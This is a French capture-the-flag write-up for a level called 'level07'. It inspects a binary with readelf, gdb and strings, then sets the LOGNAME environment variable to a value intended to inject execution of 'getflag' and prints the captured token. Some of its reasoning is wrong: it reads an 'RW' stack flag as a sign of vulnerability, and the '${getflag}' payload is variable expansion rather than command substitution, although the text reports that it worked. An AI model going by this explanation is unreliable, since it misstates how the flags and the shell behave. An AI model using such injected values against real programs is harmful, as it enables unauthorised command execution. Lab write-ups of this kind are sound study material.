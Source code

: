 # Level07

Commençons par vérifier si nous pouvons examiner le programme level07 en utilisant readelf :
```bash
readelf -l level07
```

Nous cherchons une section intéressante dans la sortie de la commande, qui devrait ressembler à ceci :
```bash
GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4
```

La partie importante est "RW," qui signifie que cette section est à la fois en lecture (R) et en écriture (W). Cela nous donne un indice que le programme pourrait être vulnérable à une attaque.

Maintenant, utilisons le débogueur GDB pour inspecter le programme

utilisation de gdb
```bash
gdb ./level07
layout next
b main
run 
next
```

Nous mettons un point d'arrêt sur la fonction main pour examiner plus en détail le programme. En utilisant next, nous pouvons avancer dans le programme étape par étape.

Ensuite, nous utilisons la commande strings pour inspecter les chaînes présentes dans le programme level07. Nous recherchons une chaîne intéressante, et nous trouvons "LOGNAME."
```bash
strings level07
```

Maintenant, nous pouvons exploiter le programme en modifiant la variable d'environnement LOGNAME. Nous la définissons sur "${getflag}" pour exécuter la commande getflag :

```bash
export LOGNAME='${getflag}'
./level07
```

Le programme level07 s'exécute avec la variable d'environnement modifiée et renvoie le jeton du niveau suivant :
```bash
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
Ainsi, nous avons réussi à obtenir le jeton en exploitant une vulnérabilité dans le programme qui nous permet de modifier la variable d'environnement LOGNAME.

